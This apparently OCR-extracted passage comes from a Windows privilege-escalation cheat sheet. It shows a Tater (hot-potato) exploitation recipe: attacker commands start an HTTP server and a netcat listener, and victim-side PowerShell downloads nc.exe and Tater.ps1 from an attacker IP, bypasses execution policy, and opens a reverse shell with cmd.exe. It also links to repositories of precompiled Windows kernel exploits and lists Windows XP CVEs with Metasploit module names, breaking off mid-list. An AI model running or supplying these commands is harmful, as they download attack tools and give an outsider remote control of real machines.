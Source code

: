 ##### Exploitation

```
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Tater.ps1.exe', '.\Tater.ps1.exe')
powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
```

#### CVE

```
# Already compiled exploit
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits
```

##### Windows XP

CVE

Description

CVE-2002-1214

ms02_063_pptp_dos - exploits a kernel based overflow when sending abnormal PPTP Control Data packets - code execution, DoS

CVE-2003-0352

ms03_026_dcom - exploits a stack buffer overflow in the RPCSS service

CVE-2003-0533

MS04-011 - ms04_011_lsass - exploits a stack buffer overflow in the LSASS service

CVE-2003-0719

ms04_011_pct - exploits a buffer overflow in the Microsoft Windows SSL PCT protocol stack - Private communication target overflow

CVE-2003-0812

ms03_049_netapi - exploits a stack buffer overflow in the NetApi32

CVE-2003-0818

ms04_007_killbill - vulnerability in the bit string decoding code in the Microsoft ASN.1 library

CVE-2003-0822

ms03_051_fp30reg_chunked - exploit for the chunked encoding buffer overflow described in MS03-051

CVE-2004-0206
